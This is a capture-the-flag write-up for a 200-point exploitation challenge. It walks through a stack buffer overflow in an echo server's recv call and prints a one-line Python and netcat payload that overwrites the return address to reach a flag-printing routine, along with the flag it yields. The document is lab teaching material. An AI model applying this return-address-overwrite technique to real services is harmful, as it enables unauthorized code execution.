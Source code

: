 ## My gift (Exploit, 200p, 59 solves)

[Binary](exp200.bin) contains simple echo-server with buffer overflow vulnerability at 0x400C42 (recv).

    char buf[72]; // [sp+0h] [bp-68h]@1
        
    // ...
    while ( 1 )
    {
        // ... (some buffer zeroing)
        readed = recv(sockfd, buf, 300uLL, 0);
        if ( readed < 0 )
            break;
        puts(buf);
        fflush(0LL);
        if ( buf[0] != 's' 
          || buf[1] != 't' 
          || buf[2] != 'o' )
        {
            usleep(0x7D0u);
        }
        else
        {
            usleep(0x7D0u);
            if ( buf[4] == 'p' )
                return;
        }
    }
    return;

It's trivial to see that recv allows to read 300 bytes using 72-byte buffer. We can also notice, that any string starting with "sto?p" will break the loop and cause return from function.

But it's not everything. At 400B90, we can found this nice routine:

    void __noreturn sub_400B90()
    {
        FILE *fd; // rax@1
        const char *buf; // [sp+0h] [bp-18h]@1
        size_t n; // [sp+8h] [bp-10h]@1
     
        buf = 0LL;
        n = 0LL;
        fd = fopen("gift", "r");
        getline((char **)&buf, &n, fd);
        puts(buf);
        fflush(stdout);
        free((void *)buf);
        _exit(1);
    }
  
So everything we need to do is to overwrite return address with 0x400B90 using recv.

    $ python -c 'import struct; print "stoop" + 99*"x" + struct.pack("<Q", 0x400b90)' | tr -d '\n' | nc 10.13.37.22 1337
    
    stoopxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx�
                         @
    DCTF{53827349d071f72d5cbcc37d3a14ca39}

